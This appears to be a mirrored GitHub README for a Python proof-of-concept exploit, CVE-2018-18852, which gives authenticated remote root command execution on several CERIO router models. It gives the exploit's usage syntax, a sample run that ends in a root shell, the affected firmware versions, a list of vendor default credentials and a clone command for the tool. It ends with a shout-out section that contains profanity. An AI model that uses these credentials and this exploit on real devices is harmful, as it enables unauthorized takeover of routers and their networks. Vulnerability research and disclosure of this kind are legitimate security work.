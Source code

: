 # CVE-2018-18852

CERIO RCE CVE-2018-18852, authenticated (vendor defaults) web-based RCE as root user.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/hook-s3c](https://github.com/hook-s3c) |
| Url      | [https://github.com/hook-s3c/CVE-2018-18852](https://github.com/hook-s3c/CVE-2018-18852)                                               |
| Stars    | 47                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>

* 0day* cerio* cve-2018-18852* exploit* rce* router

</details>

## Readme

# CERIO router Authenticated RCE (backdoor vendor creds) CVE-2018-18852 Python PoC
hook-s3c (github.com/hook-s3c), @hook_s3c on twitter

Working Python PoC for CVE-2018-18852, originally appearing on;
https://github.com/hook-s3c/CVE-2018-18852

## What's up

CERIO Router models and variants of, DT300N, DT100G, AMR-3204, WMR-200N are 
vulnerable to an authenticated web-based RCE as root user.

Exists as an 0day undisclosed advisory;
https://www.fortiguard.com/zeroday/FG-VD-18-149

Vendor default credentials are usually present, so execution is trivial.

Architecture is MIPS. 


### Usage and example

```
Usage: exploit.py <ipaddress> <port> <creds>
```

```bash

$ python ./exploit.py 127.0.0.1 8080 admin:admin

[*] ================================================
[*] CERIO RCE CVE-2018-18852, confirmed on;
[*] - CERIO DT-300N-NGS-M - fw: Pme-CPE-AP12X V1.0.3
[*] - CERIO DT-300N       - fw: Cen-CPE-N2H10A V1.0.14, Cen-CPE-N2H10A V1.1.6, Cen-CPE-N2H10A V1.1.7
[*] - CERIO DT-100G-N     - fw: Cen-AP-N2H10A V1.0.8
[*] - CERIO DT-100G       - fw: Cen-WR-G2H5 V1.0.7
[*] - CERIO DT-100GX-N    - fw: Cen-AP-N2H8A V1.0.18
[*] - CERIO AMR-3204G     - fw: Cen-AC V2.0.19
[*] - CERIO WMR-200N      - fw: Cen-HS-N2H1 V1.0.6c Test
[*]
[/] by hook (@hook_s3c) https://github.com/hook-s3c/CVE-2018-18852
[/] Greetz to vap0rsquad, ThugCrowd, $noHat$, r0bl0xgang, Udderly Amoosing, illmob, 
[/] The Many Hats Club, Cyber.Phunk, WAC, SHAM, 0x00sec, John McAfee
[/] Go cop YTCracker's Introducing Neals, gov overreach is no joke - wake the fuck up
[*] ================================================

root@cerio:~# id
[!] This may not be the right model (DT-300N-NGS-M), trying again
[+] Sucessfully grabbed pid token: 1312


uid=0(root) gid=0(root)

root@cerio:~# 

```

### Default cred combos;

- operator:1234
- admin:admin
- root:default

## Greetz

Shoutout to vap0rsquad, ThugCrowd, $noHat$, r0bl0xgang, Udderly Amoosing, illmob, The Many Hats Club, Cyber.Phunk, WAC, SHAM, 0x00sec, John McAfee
Go cop YTCracker's Introducing Neals, gov overreach is no joke - wake the fuck up

HTP!!!! YEET



## Get the content

```
git clone https://github.com/hook-s3c/CVE-2018-18852
cd CVE-2018-18852
```

{% embed url="https://github.com/hook-s3c/CVE-2018-18852" %}

<figure><img src="https://avatars.githubusercontent.com/u/31825993?v=4" alt=""><figcaption><p>hook-s3c</p></figcaption></figure>
